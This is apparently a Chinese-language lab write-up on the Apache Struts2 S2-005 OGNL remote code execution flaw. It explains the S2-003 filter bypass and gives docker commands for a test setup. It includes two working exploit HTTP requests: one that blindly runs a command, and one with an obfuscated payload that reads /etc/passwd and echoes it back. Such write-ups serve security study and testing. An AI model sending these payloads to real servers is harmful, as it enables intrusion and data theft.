 # S2-005 远程代码执行漏洞

影响版本: 2.0.0 - 2.1.8.1
漏洞详情: http://struts.apache.org/docs/s2-005.html

## 原理

参考吴翰清的《白帽子讲Web安全》一书。

> s2-005漏洞的起源源于S2-003(受影响版本: 低于Struts 2.0.12)，struts2会将http的每个参数名解析为OGNL语句执行(可理解为java代码)。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开，S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

XWork会将GET参数的键和值利用OGNL表达式解析成Java语句，如：

```
user.address.city=Bishkek&user['favoriteDrink']=kumys 
//会被转化成
action.getUser().getAddress().setCity("Bishkek")  
action.getUser().setFavoriteDrink("kumys")
```

触发漏洞就是利用了这个点，再配合OGNL的沙盒绕过方法，组成了S2-003。官方对003的修复方法是增加了安全模式（沙盒），S2-005在OGNL表达式中将安全模式关闭，又绕过了修复方法。整体过程如下：

- S2-003 使用`\u0023`绕过s2对`#`的防御
- S2-003 后官方增加了安全模式（沙盒）
- S2-005 使用OGNL表达式将沙盒关闭，继续执行代码

## 环境

执行以下命令启动s2-001测试环境

```
docker-compose build
docker-compose up -d
```

## POC && EXP

### 执行任意命令POC（无回显，空格用`@`代替）：

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: target:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36


```

网上一些POC放到tomcat8下会返回400，研究了一下发现字符`\`、`"`不能直接放path里，需要urlencode，编码以后再发送就好了。这个POC没回显。

POC用到了OGNL的Expression Evaluation：

![](1.jpeg)

大概可以理解为，`(aaa)(bbb)`中aaa作为OGNL表达式字符串，bbb作为该表达式的root对象，所以一般aaa位置如果需要执行代码，需要用引号包裹起来，而bbb位置可以直接放置Java语句。`(aaa)(bbb)=true`实际上就是`aaa=true`。不过确切怎么理解，还需要深入研究，有待优化。

期待大佬研究出有回显的POC。

### 执行任意命令POC（有回显，将需要执行的命令进行urlencode编码）：

```
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: target:8080
Content-Length: 626

redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```

![](2.png)

![](3.png)
